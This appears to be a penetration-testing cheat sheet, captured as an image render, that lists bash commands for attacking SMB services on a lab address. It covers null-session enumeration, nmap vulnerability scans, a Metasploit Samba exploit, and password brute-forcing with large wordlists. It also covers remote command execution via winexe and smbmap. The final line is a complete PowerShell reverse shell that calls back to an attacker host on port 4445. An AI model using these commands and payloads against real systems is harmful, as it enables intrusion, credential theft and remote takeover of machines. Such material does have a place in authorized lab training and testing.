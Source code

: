 ```bash
rpcclient -U " " 10.11.1.111
rpcclient -U " " -N 10.11.1.111

# Check vulns
nmap --script smb-vuln* -p139,445 -T4 -Pn 10.11.1.111

# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run

# Bruteforce login
medusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt 
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvv
nmap –script smb-brute 10.11.1.111

# nmap smb enum & vuln 
nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

# Mount smb volume linux
mount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share

# rpcclient commands
rpcclient -U "" 10.11.1.111
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall

# Run cmd over smb from linux
winexe -U username //10.11.1.111 "cmd.exe" --system

# smbmap
smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell

```
